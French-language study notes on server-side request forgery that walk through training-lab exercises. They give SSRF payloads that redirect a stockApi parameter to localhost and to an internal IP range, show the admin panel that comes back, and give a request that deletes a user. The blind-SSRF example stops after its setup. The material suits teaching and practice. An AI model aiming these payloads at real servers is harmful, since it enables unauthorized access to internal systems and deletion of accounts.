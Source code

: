 ## Description
Le Server-Side Request forgery est une vulnérabilité de sécurité web qui permet à un attaquant d'amener l'application côté serveur à envoyer des requêtes à un endroit non désiré.

### Impact
Une attaque SSRF réussie peut souvent entraîner des actions non autorisées ou l'accès à des données au sein de l'organisation. Cela peut se produire dans l'application vulnérable ou dans d'autres systèmes de base avec lesquels l'application peut communiquer. Dans certaines situations, la vulnérabilité SSRF peut permettre à un attaquant d'exécuter des commandes arbitraires.

- **Exemple 1**
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1

```
Ici la fonctionalite de `stockApi` contient une vulnerabilte de `SSRF`, qui recupere les donnes dans un systems internes.
Si alors je le change en `http://localhost/admin` j'accede a la panel admin interne en local
```html
                       <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>

```
et a partir d'ici si je veux supprimer un utilisateur je vais juste copier cet url qui me renvoi a son profil

```
stockApi=http://localhost/admin/delete?username=carlos&sto
```


- **Exemple 2: SSRF par rapport a un system backend**

Ce laboratoire dispose d'une fonction de contrôle des stocks qui récupère les données d'un système interne.
```
stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1
```
- pour resoudre ce lab, on doit utiliser la fonctionnalité de contrôle des stocks pour rechercher dans la plage interne `192.168.0.X` une interface d'administration sur le port 8080, puis l'utiliser pour supprimer l'utilisateur `Carlos`.

Avec Burp Intruder je trouve que le lenght de `173` est trop moins que les autres aussi avec un not found

```html
stockApi=http://192.168.0.173:8080/admin&storeId=1


                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/http://192.168.0.173:8080/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/http://192.168.0.173:8080/admin/delete?username=carlos">Delete</a>
                        </div>
```

- **Exemple 3: SSRF aveugle avec détection hors bande**
Ce site utilise un logiciel d'analyse qui récupère l'URL spécifiée dans l'en-tête Referer lorsqu'une page de produit est chargée.
SSRF est une vulnérabilité de sécurité des applications web qui permet à l'attaquant de forcer le serveur à faire des requêtes non autorisées à n'importe quelle source locale ou externe au nom du serveur web. La SSRF permet à un pirate d'interagir avec des systèmes internes, ce qui peut entraîner des fuites de données, des interruptions de service, voire l'exécution de codes à distance.

## Basic SSRF
Le SSRF de base est une technique d'attaque sur le web par laquelle un pirate incite un serveur à effectuer des requêtes en son nom, souvent en ciblant des systèmes internes ou des services tiers. En exploitant les vulnérabilités de la validation des entrées, l'attaquant peut obtenir un accès non autorisé à des informations sensibles ou contrôler des ressources distantes, ce qui représente un risque de sécurité important pour l'application ciblée et son infrastructure sous-jacente.